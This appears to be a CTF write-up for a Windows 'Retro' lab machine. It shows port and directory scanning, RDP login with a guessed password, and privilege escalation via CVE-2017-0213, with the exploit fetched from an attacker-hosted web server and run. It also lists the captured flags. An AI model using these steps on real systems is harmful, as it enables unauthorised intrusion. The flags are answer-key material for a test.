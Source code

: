 I start to enumerate the machine and run an nmap scan to find open ports on the retro machine.
Since it is a windows machine and most likely blocks pings I use the -Pn(no pings) option.

```
nmap -sV -Pn 10.10.220.226
```
We found 2 open ports 80(http) & 3389(RDP). So we know that RDP is enabled on the the machine and that we can use the
browser to access the server.

After that I do directory crawling with gobuster to look for hidden directories that might lead to vulnerabilities.

```
gobuster dir -u http://10.10.220.226 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
I find a directory called 
```
 http://10.10.220.226/retro/
```
and decide to check it out. We found a wordpress log in page when we scroll to the bottom of the page that leads to a wordpress login form.
We also found some interesting blog post from the user Wade one which talks about how his favorite bood Ready Player One was
turned into a movie and doing some research on the book we find out about Parzival. I decided to use these credentials to gain 
initial access through RDP.

Command used:
```
xfreerdp /u:wade /p:parzival /cert:ignore /v:10.10.220.226 /workarea
```
We logged in successfully and found the first flag 

User: 3b99fbdc6d430bfb51c72c651a261927

Privledge Escalation:

For privledge escalation we first checked out the system info and searched for a way to exploit the system.
command used:
```
sysinfo
```
After that I found an exploit and a payload to upload to the server 
CVE #: CVE-2017-0213
The exploit URL: https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213

commands used:
Attacker:
```
python3 -m http.server --bind 10.6.30.236
```
Victim:
```
Invoke-WebRequest -Uri http://10.6.30.236:8000/CVE-2017-0213_x64.exe -Outfile CVE-2017-0213_x64.exe
```
```
.\CVE-2017-0213_x64.exe 
```
This gave an administrators shell and I was able to find the last flag in C:\Users\Administrator\Desktop

root: 7958b565d7bd88d10c6f22d1c4063

Machine has been rooted action is no longer required.
